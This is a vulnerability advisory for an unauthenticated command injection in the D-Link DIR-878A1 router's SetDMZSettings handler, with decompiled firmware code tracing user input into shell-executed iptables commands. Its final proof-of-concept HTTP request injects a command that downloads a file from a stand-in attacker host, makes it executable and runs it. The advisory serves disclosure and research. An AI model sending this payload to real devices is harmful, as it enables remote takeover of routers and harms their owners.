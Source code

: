 # Command Injection Vulnerability in `SetDMZSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-878A1 Router                                      |
| Firmware Version     | **FW101B04.bin** (other versions require verification)       |
| Vulnerability Type   | **Unauthenticated Command Injection**                        |
| Vulnerable Component | `prog.cgi` (parameter processing) → `librcm.so` (command execution) |
| Prerequisites        | No authentication required (remote exploitation possible)    |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_4469DC(int a1)
{
  ...
  VarString = webGetVarString(a1, "/SetDMZSettings/Enabled");
  if ( !VarString )
    return WebsSetResponseResult(a1, 11);
  v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress");
  if ( !v3 )
    return WebsSetResponseResult(a1, 11);
  if ( !strcmp(VarString, "true") )
    nvram_safe_set("dmz_enable", "1");
  else
    nvram_safe_set("dmz_enable", "0");
  nvram_safe_set("dmz_ipaddr", v3);
  ...
}

// librcm.so
int DMZ_run()
{
  ...
  v5 = nvram_safe_get("dmz_enable");
  if ( !strcmp(v5, "1") )
  {
    DMZ_chain_init();
    v51 = (const char *)nvram_safe_get("dmz_ipaddr");
    ...
    while ( 1 )
    {
      ...
      if ( *v51 )
      {
        if ( *wan_ipaddr )
        {
          if ( *wan_ifname )
          {
            ...
            snprintf(
              v48,
              256,
              "iptables -t nat -A %s -d %s -j DNAT --to-destination %s 2>/dev/null",
              "DMZ_PREROUTING",
              wan_ipaddr,
              v51);
            twsystem(v48, 1);
            snprintf(
              v48,
              256,
              "iptables -t filter -A %s -i %s -d %s -j ACCEPT 2>/dev/null",
              "DMZ_FORWARD",
              wan_ifname,
              v51);
            twsystem(v48, 1);
            if ( v50 > 0 )
            {
              ...
              do
              {
                ...
                if ( *v30 )
                {
                  if ( strcmp(v30, "0.0.0.0") )
                  {
                    if ( sscanf(v30, "%d.%d.%d.%d", &v43, &v44, &v45, &v46) == 4 )
                    {
                      ...
                      if ( v36 == v55 )
                      {
                        snprintf(
                          v48,
                          256,
                          "iptables -t nat -A %s -d %s -s %s -j ACCEPT 2>/dev/null",
                          "DMZ_POSTROUTING",
                          v51,
                          v30);
                        twsystem(v48, 1);
                        snprintf(
                          v48,
                          256,
                          "iptables -t nat -A %s -s %d.%d.%d.%d/%s -d %s "
                          "-j SNAT --to-source %s 2>/dev/null",
                          "DMZ_POSTROUTING",
                          v39 & v43,
                          v40 & v44,
                          v41 & v45,
                          v42 & v46,
                          v31,
                          v51,
                          v54);
                        twsystem(v48, 1);
                     ...
}
```

3. **Vulnerable Binaries:** `prog.cgi` and `librcm.so`; the data flow traverses across these binaries.
4. 0-Day Command Injection Exploitation Path:
   - In `prog.cgi`, line 8: `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")` receives user input, which is temporarily stored via line 15: `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27: `v51 = (const char *)nvram_safe_get("dmz_ipaddr")` retrieves the stored value, which is concatenated and passed to line 46: `twsystem(v48, 1)`, leading to command injection.
   - In `prog.cgi`, line 8: `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")` receives user input, which is temporarily stored via line 15: `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27: `v51 = (const char *)nvram_safe_get("dmz_ipaddr")` retrieves the stored value, which is concatenated and passed to line 54: `twsystem(v48, 1)`, resulting in command injection.
   - In `prog.cgi`, line 8: `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")` receives user input, which is temporarily stored via line 15: `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27: `v51 = (const char *)nvram_safe_get("dmz_ipaddr")` retrieves the stored value, which is concatenated and passed to line 77: `twsystem(v48, 1)`, resulting in command injection.
   - In `prog.cgi`, line 8: `v3 = webGetVarString(a1, "/SetDMZSettings/IPAddress")` receives user input, which is temporarily stored via line 15: `nvram_safe_set("dmz_ipaddr", v3)`. In `librcm.so`, line 27: `v51 = (const char *)nvram_safe_get("dmz_ipaddr")` retrieves the stored value, which is concatenated and passed to line 91: `twsystem(v48, 1)`, resulting in command injection.
5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/prog.cgi HTTP/1.1  
Host: 192.168.0.1  
Content-Type: application/xml  

<SetDMZSettings>
    <Enabled>true</Enabled>
    <IPAddress>192.168.1.100; wget http://attacker.com/malware -O /tmp/exp; 
    chmod +x /tmp/exp; /tmp/exp</IPAddress>
</SetDMZSettings>
```